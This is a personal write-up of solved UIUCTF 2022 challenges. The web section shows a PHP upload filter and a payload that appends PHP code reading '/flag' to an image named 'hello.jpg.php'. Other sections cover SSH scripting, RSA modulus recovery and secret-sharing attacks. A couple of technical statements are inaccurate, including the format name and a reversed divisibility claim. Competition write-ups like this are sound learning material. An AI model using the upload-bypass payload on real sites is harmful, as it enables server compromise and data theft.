

Last weekend I took some time on Friday to do UIUCTF 2022. I placed 102nd with
462 points. Here are the writeups to the challenges I solved. My full workspace
including partial work on unsolved challenges is published at
[~mzhang/uiuctf-2022].

[~mzhang/uiuctf-2022]: https://git.sr.ht/~mzhang/uiuctf-2022

Thanks to @sampai, @vekt0r, and @᲼᲼# from the MIT osu! server for helping out
with some of the challenges :)

<!--more-->

## Web: Frame - 50 points

> "ornate wooden empty picture frame, on a teal wall"
>
> We made it easy to add a frame to your digital art! https://frame-web.chal.uiuc.tf/
>
> [handout.tar.gz](frame.tar.gz)

This challenge prompted us to upload an image, and then it would display the
image inside of a frame. Notably, this frame was done client-side, which means
the original image was not post-processed in any way. If we look at the code
that checks to make sure you uploaded a valid image:

```php
$allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
$filename = $_FILES["fileToUpload"]["name"];
$tmpname = $_FILES["fileToUpload"]["tmp_name"];
$target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

$has_extension = false;
foreach ($allowed_extensions as $extension) {
  if (strpos(strtolower($filename), $extension) !== false) {
    $has_extension = true;
  }
}
```

The flaw here is that the file extension is only checked for existence, not that
it actually occurs at the end of the file. As a result, the web server will
guess the kind of data in the file based on the final extension. We can simply
upload a file named `hello.jpg.php` and it will pass this.

The Dockerfile in the handout helpfully tells us the location of the flag, so
here is the file I uploaded:

```
cp real_image.jpg hello.jpg.php
echo '<?php echo file_get_contents("/flag"); ?>' >> hello.jpg.php
```

Uploading this file reveals the flag.

## Web: AR Pwny - 50 points

> "a green cybernetic horse grazing in the sun"
>
> Welcome to the meataverse! http://ar-pwny-web.chal.uiuc.tf/
>
> [pwny.glb](pwny.glb)

A glb file is a glTK texture. We can open this in a program such as [Blender] in
order to understand it. Use **File > Import > glb** to open the file, then hide
all of the objects except the two flag halves.

[blender]: https://www.blender.org



This reveals two QR codes that can be combined into the flag.

## Pwn: easy math 1 - 88 points

> Take a break from exploiting binaries, and solve a few\* simple math problems!
>
> `$ ssh ctf@easy-math.chal.uiuc.tf` password is `ctf`
>
> [easy-math.c](easy-math.c)

This is really just a simple programming exercise. Looking at the source code,
the annoying part is that it checks that your standard input is the same as the
standard input of proc 1.

This isn't too bad to get around, since we can just puppet the pseudoterminal of
the SSH connection entirely using something like Paramiko:

```python
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect("easy-math.chal.uiuc.tf", 22, "ctf", "ctf")

ch = ssh.invoke_shell()
print(ch.recv(1024))
```

Looks like there was a more sneaky way of solving this challenge, which is what
easy-math-2 went into, but I didn't spend enough time looking at this in order
to figure it out.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/pwn/easy-math-1/solve.py)

## Crypto: Military Grade Encryption - 50 points

> I came across a new website that claims to keep my flag safe with
> military-grade encryption. Clearly, this is going to keep my flag safe from
> anyone who may want it. https://military-grade-encryption-web.chal.uiuc.tf/

I'm not really sure what the clever way to solve this was, but all the numbers
were small enough to be brute forced, so that's what I did. Simply reverse the
process used and look for a string beginning with `uiuctf{`.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/military-grade-encryption/solve.py)

## Crypto: asr - 85 points

> Oh no I dropped my d. Good thing I'm not telling you my n.

As this challenge implies, the problem comes from reversing the typical
challenge of RSA. This time, rather than starting with a modulus and trying to
discover the private exponent, we are given the private exponent, and trying to
find the modulus.

As a reminder, once we find $N$, we can simply evaluate $c^d \mod N$ to
determine the final message.

First, we know that the relationship between $e$ and $d$ is that $ed \equiv 1
\mod \phi(N)$. Translating this to plain algebra, this means $ed - 1 = k\phi(N)$
for some positive integer $k$. This tells us that $ed - 1$ must divide
$\phi(N)$.

We used an [external factoring service] to factor $ed - 1$. Using the
`gen_prime` method given to us, we are able to validate that our factorization
ended up being what was expected: exactly 16 64-bit primes, and a handful of
smaller primes. The only thing left is organizing the 16 primes into two groups
of 8.

[external factoring service]: https://www.alpertron.com.ar/ECM.HTM

Trusty old combinatorics tells us ${16 \choose 8} = 12870$, which is easily
iterable within a matter of seconds. After picking 8 primes, we simply run
through the same process as `gen_prime` in order to generate our $p$ and $q$:

```python
for perm in tqdm(perms):
  perm = set(list(perm))
  p = prod(perm)
  q = prod(bigprimes - perm)

  for i in range(7):
    if isPrime(p + 1): break
    p *= small_primes[i]
  for i in range(7):
    if isPrime(q + 1): break
    q *= small_primes[i]

  p = p + 1
  q = q + 1
```

All that's left is to run $c^d \mod N$ and find strings that begin with
`uiuctf{` to determine which of these organizations of prime factors is the
correct one.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/asr/solve2.py)

## Wringing Rings - 139 points

> Everyone says we should use finite fields, but I loved sharing secrets this
> way so much that I put a ring on it!
>
> `$ nc ring.chal.uiuc.tf 1337`

This challenge employs a variation of [Shamir's Secret Sharing algorithm][SSS].
The crux of the algorithm involves encoding a shared secret into the
coefficients of a polynomial of degree $k$. Note that given $k + 1$ unique
points on this polynomial, the entire polynomial can be recovered. If $k$ is 6,
and we generate 12 unique points to split between 12 people, then any individual
must find 6 others in order to recover the secret.

[SSS]: https://en.wikipedia.org/wiki/Shamir%27s_Secret_Sharing

The problem with the implementation in question is that it does not operate over
a finite field, as required by the original algorithm. This leaks information
about the secret, specifically with respect to what numbers it divides, since we
know that all coefficients must be integers.

This means that even with the absence of one of the required points, we can
still reasonably recover the curve with the added information that all
coefficients are less than $500,000$.

I simply threw all of the constraints we are given into the z3 solver, and
within milliseconds the answer was given. After that it was just a matter of
hooking it up to the challenge server and waiting for the flag.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/wringing-rings/solve.py)
